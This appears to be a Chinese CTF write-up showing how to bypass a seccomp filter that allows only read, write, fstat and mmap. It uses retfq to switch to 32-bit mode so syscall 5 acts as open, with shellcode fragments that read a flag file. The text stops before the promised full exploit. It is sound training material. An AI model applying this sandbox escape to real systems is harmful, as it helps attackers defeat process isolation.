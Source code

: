 ```shell
-> % seccomp-tools dump ./shellcode
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000000  A = sys_number
 0001: 0x25 0x04 0x00 0x40000000  if (A > 0x40000000) goto 0006
 0002: 0x15 0x04 0x00 0x00000001  if (A == write) goto 0007
 0003: 0x15 0x03 0x00 0x00000005  if (A == fstat) goto 0007
 0004: 0x15 0x02 0x00 0x00000000  if (A == read) goto 0007
 0005: 0x15 0x01 0x00 0x00000009  if (A == mmap) goto 0007
 0006: 0x06 0x00 0x00 0x00000000  return KILL
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

可以看到只有在调用write、fstat、read、mmap时才goto 0007，也就是ALLOW，那么就不能简单使用system("/bin/sh")一类

fstat看起来有点奇怪，事实上32位下open和64位下fstat系统调用号都为5，而恰好有一条汇编指令**retfq**可以让程序转成32位模式运行，答案浮出水面

### Solution

1. 用mmap分配一块内存，向上面写入我们要在32位模式下执行的shellcode

   ```c
    mmap(0x40404040, 0x1000, 7, 34, 0, 0)
    read(0, 0x40404040, 0x1000) 
   ```

2. 用retfq指令**转到32位**，同时要**调整rsp**，否则原本的rsp截断成32位后会变成奇怪的数，后面push时可能会访问非法内存，把它随便弄成一个靠谱的数就行，这里选在我们mmap的内存上

   其中0x23是retfq的参数，表示要转成32位模式，0x40404040是执行retfq后**rip**将变成的值，我们要把之后的shellcode写到那里，让程序在32位模式下执行，这也是我们要自己**调用一次read**的原因

   ```c
   mov rsp, 0x40404f40
       
   push 0x23
   push 0x40404040
   retfq
   ```

3. 然后用32位的open打开flag文件，**转回64位**后read它，用write输出到屏幕

   这一段代码我们是用步骤1中的read读入的，程序实际流程是把下面这些**read到0x40404040之后**再执行步骤2中的内容，注意0x40404065要我们调试得到，其实就是**read开始**的地址

   ```c
   i386.linux.open('./flag')
   push 0x33; 
   push 0x40404065;
   retfq
       
   amd64.linux.read(3, 0x40404840, 0x100)
   amd64.linux.write(1, 0x40404840, 0x100)
   ```

完整exp如下
